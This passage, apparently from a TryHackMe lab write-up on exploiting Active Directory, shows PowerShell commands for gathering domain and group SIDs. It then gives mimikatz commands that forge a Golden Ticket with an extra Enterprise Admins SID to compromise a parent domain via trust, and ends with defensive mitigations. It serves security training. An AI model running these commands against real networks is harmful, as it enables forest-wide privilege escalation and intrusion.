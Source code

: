 - The SID of the child domain controller (THMDC), which we will impersonate in our forged TGT
- The SID of the Enterprise Admins in the parent domain, which we will add as an extra SID to our forged TGT

To recover these SIDs, we can use the AD-RSAT Powershell cmdlets. 

To recover the SID of the child domain controller use the following command:

`Get-ADComputer -Identity "THMDC"`

To recover the SID of the Enterprise Admins group use the following command:

`Get-ADGroup -Identity "Enterprise Admins" -Server thmrootdc.tryhackme.loc (or <ROOT-DC-IP>)`

**Exploiting Domain Trust**

Now that we have all the information, use mimikatz to create the Golden Ticket:

```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # kerberos::golden /user:Administrator /domain:za.tryhackme.loc /sid:S-1-5-21-3885271727-2693558621-2658995185-1001 /service:krbtgt /rc4:<KRBTGT-HASH> /sids:<EA-GROUP-SID> /ptt
```

### Conclusion

Exploiting AD takes time to master, and the techniques used will highly depend on the configuration of the 
AD structure that is being attacked. The biggest thing to understand is that the process is cyclic.

In most cases we will not be able to run a single boot-to-root exploit that gives us DA access. The best 
approach is to perform exploitation that furthers your access, then use the access that was achieved to 
perform enumeration again, looking for additional exploit paths that may be possible from this new position.

**Mitigations**

AD exploitation, like AD enumeration, is incredibly hard to defend against. This is because what may be 
considered a misconfiguration that can be exploited, has an actual business case. However, we can do a 
couple of things to protect against exploitation:

- We need to ensure that no configuration breaks our tiering model. Accounts in a lower tier should not have 
the ability to interact with resources in a higher tier. Furthermore, accounts from a higher tier should 
never log onto resources in a lower tier.
- The principle of least privilege should be followed when permission delegation is performed. Furthermore, 
permission delegation should adhere to the tiering model, ensuring that a lower-tiered object can't alter a 
higher tiered object.
- SMB signing should be enforced, not just enabled. This will prevent credential relay attempts.
- AD objects and their configuration are not the only paths for exploitation. AD services, such as AD CS 
should also be considered part of the attack surface and secured.
- We need to implement sufficient security controls to protect Tier 0 infrastructure and accounts in our 
child domains since a compromise of one can lead to the compromise of the entire forest.
